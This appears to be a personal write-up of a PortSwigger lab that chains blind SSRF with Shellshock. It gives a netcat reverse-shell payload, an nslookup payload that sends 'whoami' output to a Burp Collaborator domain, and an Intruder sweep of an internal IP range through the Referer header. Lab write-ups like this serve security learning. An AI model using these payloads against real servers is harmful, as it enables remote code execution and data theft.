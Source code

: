 ```yaml
---
tags: ["ssrf", "shellshock"]
image: "img/Portswigger/SSRF.png"
---
```


imply identifying a blind [SSRF vulnerability](https://portswigger.net/web-security/ssrf) that can trigger out-of-band HTTP requests doesn't in itself provide a route to exploitability. Since you cannot view the response from the back-end request, the behavior can't be used to explore content on systems that the application server can reach. However, it can still be leveraged to probe for other vulnerabilities on the server itself or on other back-end systems. You can blindly sweep the internal IP address space, sending payloads designed to detect well-known vulnerabilities. If those payloads also employ blind out-of-band techniques, then you might uncover a critical vulnerability on an unpatched internal server.

Another avenue for exploiting blind SSRF vulnerabilities is to induce the application to connect to a system under the attacker's control, and return malicious responses to the HTTP client that makes the connection. If you can exploit a serious client-side vulnerability in the server's HTTP implementation, you might be able to achieve remote code execution within the application infrastructure.

## Challenge

--> In this challenge we have to use shellshock payload and get the result of `whoami` by running the exploit internally on `http://192.68.0.x:8080` range

So first i searched about shellshock payload and after reading some docs i found this payload which will get us the reverse shell !

```
() { :; }; /bin/bash -c ‘nc 192.168.234.166 1337 -e /bin/sh’
```

But we can't get reverse shell because this website will only respond to burp collaborator's requests so we have to use something like `nslookup` and after searching i found this payload:

```
() { :;}; nslookup ${whoami}.laz1klz1e1s4rz9hvknib7s5owuoid.burpcollaborator.net
```

Resources:

- https://github.com/opsxcq/exploit-CVE-2014-6271
- https://owasp.org/www-pdf-archive/Shellshock_-_Tudor_Enache.pdf
- https://www.exploit-db.com/docs/48112

--> And also we will add this in `referrer` header

```
http://192.168.0.0:8080
```

--> Now we will run the intruder attack for this ip and keep doing `poll now` in collaboartor client

![](Attachments/Pastedimage20220222125752.png)

And after running attack i found the username in lookup request.

![](Attachments/Pastedimage20220222125828.png)

And we solved the lab!

